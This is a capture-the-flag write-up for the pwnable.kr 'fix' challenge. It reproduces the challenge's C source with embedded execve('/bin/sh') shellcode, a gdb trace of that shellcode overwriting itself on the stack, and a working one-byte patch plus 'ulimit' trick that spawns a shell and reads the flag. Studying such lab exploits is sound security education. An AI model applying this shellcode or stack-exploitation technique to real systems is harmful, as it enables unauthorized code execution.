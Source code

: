 The solution for this problem isn't very intuitive.
If you do as I did and try bruteforce you might get upset :(,
bruteforce doesn't work since the exploit relies on using additional setup.
Let's do an analysis of the source first:

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

	unsigned int index=0;
	printf("Tell me the byte index to be fixed : ");
	scanf("%d", &index);
	fflush(stdin);

	if(index > 22)	return 0;

	int fix=0;
	printf("Tell me the value to be patched : ");
	scanf("%d", &fix);

	// patching my shellcode
	sc[index] = fix;

	// this should work..
	shellcode();
	return 0;
}
```
The code pretty much speaks for itself. Let's disassemble the shellcode
to see whether there is any problem with it:
```
   0:   31 c0                   xor    eax, eax
   2:   50                      push   eax
   3:   68 2f 2f 73 68          push   0x68732f2f
   8:   68 2f 62 69 6e          push   0x6e69622f
   d:   89 e3                   mov    ebx, esp
   f:   50                      push   eax
  10:   53                      push   ebx
  11:   89 e1                   mov    ecx, esp
  13:   b0 0b                   mov    al, 0xb
  15:   cd 80                   int    0x80
```
Unfortunately there's nothing wrong here.
The shellcode is essentially invoking `execve("/bin//sh")` system call, it should work fine,
so what's the problem with the program? Maybe we aren't
jumping to the shellcode correctly, let's inspect the instruction pointer after
leaving `shellcode`:
```
(gdb) x/10i $eip
=> 0xffde4d1c:	xor    eax,eax
   0xffde4d1e:	push   eax
   0xffde4d1f:	push   0x68732f2f
   0xffde4d24:	push   0x6e69622f
   0xffde4d29:	mov    ebx,esp
   0xffde4d2b:	push   eax
   0xffde4d2c:	push   ebx
   0xffde4d2d:	mov    ecx,esp
   0xffde4d2f:	mov    al,0xb
   0xffde4d31:	int    0x80
```
The jump is correct, what else could possibly be messed up?
To see the bug let's continue stepping through the shellcode:
```
(gdb) si
0xffde4d1e in ?? ()
(gdb)
0xffde4d1f in ?? ()
(gdb)
0xffde4d24 in ?? ()
(gdb)
0xffde4d29 in ?? ()
(gdb)
0xffde4d2b in ?? ()
(gdb) x/x $esp
0xffde4d34:	0x6e69622f                <---- note how at the third push esp points just after our shellcode.
(gdb) si
0xffde4d2c in ?? ()
(gdb) x/4i $eip
=> 0xffde4d2c:	push   ebx
   0xffde4d2d:	mov    ecx,esp
   0xffde4d2f:	mov    al,0x0
   0xffde4d31:	add    BYTE PTR [eax],al  <---- the fourth push made int 0x80 suddenly disappear.
(gdb) si
0xffde4d2d in ?? ()
(gdb) x/3i $eip
=> 0xffde4d2d:	dec    ebp                <-|
   0xffde4d2e:	fdivrp st(7),st           <-|-- the fifth push screwed the shellcode up even further.
   0xffde4d30:	add    BYTE PTR [eax],al  <-|
(gdb)
```

As we can see, since the shellcode is placed on the stack
it involuntarily overwrites itself via the five `push` instructions.
To fix this we would need to somehow get rid of two of the `push`es
by changing a single byte in the shellcode. This seems challenging!
I tried different onebyte pop instructions,
popping into a single register or even many registers simultaneously but
to no avail, what worked is as I mentioned in the beginning not really intuitive -
the solution is to replace the `push eax` with `pop esp`.
This would move the `0x6e69622f` (last value we pushed on the stack)
into `esp` so in this way the next `push` would
not overwrite the end of the shellcode.

But... is `0x6e6622f` even mapped to later `push ebx` on it and even if it is,
what and how many arguments would `argv[]` end up with?

To address the first question, no the memory is not initially mapped but there is a cool
`bash` builtin which can set up processes so that new memory get's mapped to
them the moment they access invalid memory through the `esp` register.
I am talking about the `ulimit` command we used in the [otp](otp.md) challenge.
If we call `ulimit -s unlimited` we would configure the stack size of processes we spawn to be unlimited.
This means that if the stack grows beyond it's location a page fault would not terminate
the process but grow the stack to include the new address in `esp`.
(I suppose that this is only possible when the address is not below any other mappings, just the stack).

For the second question, I don't know whether there is a guarantee for the newly mapped pages
to be zero-initialized but this seems to be true on the pwnable.kr server at least so
after we set `argv[0]` with the `push ebx; mov ecx, esp;`
the argument array will be zero-terminated as desired.

```
fix@pwnable:~$ ulimit -s unlimited
fix@pwnable:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ ls
fix  fix.c  flag  intended_solution.txt
$ cat flag
...(flag)...
```

If you think this solution was witty and cool check out the
`intended_solution.txt` file, it presents an approach that's even more ingenious!
